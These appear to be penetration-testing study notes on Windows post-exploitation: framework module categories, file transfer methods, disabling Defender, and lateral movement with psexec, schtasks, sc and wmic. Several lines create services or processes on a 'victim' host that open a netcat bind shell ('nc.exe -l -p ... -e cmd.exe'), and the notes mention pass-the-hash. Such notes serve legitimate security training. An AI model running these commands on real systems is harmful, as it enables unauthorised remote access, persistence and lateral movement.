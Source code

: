 •	Module categories: Code execution, Collection, Exfiltration (PII data as test for blue team), Exploitation (Jboss, Jenkins), Fun, Lateral movement (psexec another target, ssh), Management (email, RunAs, alter file system, inject hashes into local security authority sub-system (LSASS)), Persistence (reg key, task scheduler), Recon (sweeps), Situation awareness (ARP / SMB scan, Reverse DNS lookup, Domain info), Trollsploit (play ascii video and audio, rick roll – ‘never gonna give you up’)
•	usestager is the command to create agents / vulnerable executables onto target machines

Different ways to move files from attacker PC to target system (or vice-versa):
•	TFTP, FTP, SCP, HTTP(s), Windows file sharing, NFS (TCP 2049), Netcat, meterpreter upload / download / cat / edit, Script based command line append >> file.txt

## Windows command line scripting
•	while (true) ; do [this] && [this] ; [this] ; done
•	> /dev/null means throw away
•	control /name Microsoft.WindowsDefender (command that disables windows defender)
•	control /name Microsoft.ActionCenter (command that opens up action center on windows)
•	net use M: \\ip\share <password> /u:<user>   creates SMB session and mount it on M drive
o	net use \\ip /del OR net use * /del /y    (to delete all connections without prompting yes/no)
•	runas /u:<user> <command>

Using compromised target-1 windows machine to run commands into another windows machine
•	Use of psexec from Microsoft sysinternals (by Mark Russinovich, creates psexec service on first run and -d option lets it to run in disconnected mode without waiting for standard i/p and o/p) OR Inbuilt Metasploit’s psexec exploit OR NMap’s NSE script for psexec
•	Use of ‘at’ or ‘schtasks’ command  to invoke an executable (scheduling jobs, checking status, etc.)
o	at \\target-ip [HH:mm:ss] [A|P] [command]
        schtasks /create /tn [taskname] /s [targetip] /u [user] /p [pass] /sc [frequency] /st [starttime] /sd [startdata] /tr [command]
  To run with system user: replace user and pass with “/ru SYSTEM”

SC (Service Controller) on Windows
•	Use ‘sc’ command (starting a service with sc command will always run with SYSTEM privileges but run only for 30 seconds. After that time, system will kill it as there is no API call back that service started successfully)
o	To tackle the 30 sec issue with sc command, InGuardian’s ‘ServifyThis’ tool helps as wrapper to call  the service started API call back OR run command as ‘cmd.exe /k’ in sc [/k refers to child process]
     sc \\<victim_host_name> create <service_name> binpath= “cmd.exe /k nc.exe -l -p 1234 -e cmd.exe”
•	sc query state= all  (space between equal-to(=) and all)
•	To create service on victim machine
o	sc \\<victim_host_name> create <service_name> binpath= “nc.exe -l -p -e cmd.exe”
•	To query or start or stop or delete the service from attacker machine
o	sc \\<victim_host_name> query|start|stop|delete <service_name>
o	Don’t use IP address in above commands, windows has problems. Works only with hostname.
•	‘sc’ doesn’t have access to open GUI of target-pcs, whereas ‘wmic’ can !

## wmic (Windows Management Instrumentation command-line)  uses WQL for query and update
•	Use of ‘wmic’, which is more flexible (available from XP pro to Win 10, can manage Win 2000 or later)
o	wmic /node:<targetip> /user:admin /password:cvratnam process call create <command>
	Leaving out user and pass in above command is a ‘pass-the-hash’ attack by default
o	wmic /node:@targets.txt process list brief     or process list full
•	wmic service where (displayname like “%whatever%”) get name  gives service name, not display name
•	To create service on victim machine: wmic process call create “nc.exe -l -p 12345 -e cmd.exe”
•	To delete the process: wmic process where name=”nc.exe” delete
